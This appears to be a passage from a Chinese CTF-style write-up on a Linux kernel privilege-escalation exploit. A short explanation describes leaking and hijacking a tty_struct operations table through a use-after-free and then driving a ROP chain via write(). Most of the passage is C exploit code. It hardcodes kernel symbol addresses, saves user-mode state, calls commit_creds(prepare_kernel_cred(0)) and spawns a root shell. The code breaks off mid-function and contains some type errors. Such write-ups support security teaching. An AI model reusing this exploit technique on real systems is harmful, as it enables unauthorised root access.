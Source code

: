 思路是利用UAF泄露出部分tty_struct结构体的内容，我们把operation这个结构体指针改成我们伪造的函数结构体指针，在函数结构体指针中按照顺序改三个指针为gadgets和rop，最终在调用write的时候触发这些函数执行劫持控制流，rop之后先改rc4，后面都一样。

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t user_cs,user_ss,user_rflags,user_sp;

size_t prepare_kernel_cred = 0xffffffff810a1810;
size_t commit_creds = 0xffffffff810a1420;

size_t vmlinux_base;

void save_status()
{
  __asm__(
    "mov user_cs,cs;"
    "mov user_ss,ss;"
    "mov user_sp,rsp;"
    "pushf;"
    "pop user_rflags;"
  );
  puts("[*] status has been saved.");

}

void BeRoot()
{
    char* (*fun1)(int) = prepare_kernel_cred;
    void  (*fun2)(char*) = commit_creds;
    (*fun2)((*fun1)(0));
}

void GetRootShell()
{
    if(!getuid()){
        system("/bin/sh");
    }
    else{
        puts("[*] get root shell error!");
    }
}

size_t FindVmlinuxBase()
{
    int fd = fopen("/tmp/kallsyms","r");
    if(fd == -1){
        puts("[*]open symbol file failed.");
    }
    char buf[0x30] = {0};
    while(fgets(buf,0x30,fd)){
        if(commit_creds && prepare_kernel_cred)
            return 0;
        if(strstr(buf,"commit_creds") && !commit_creds){
            char hex[0x20] = {0};
            strncpy(hex,buf,0x10);
            sscanf(hex,"%llx",&commit_creds);
```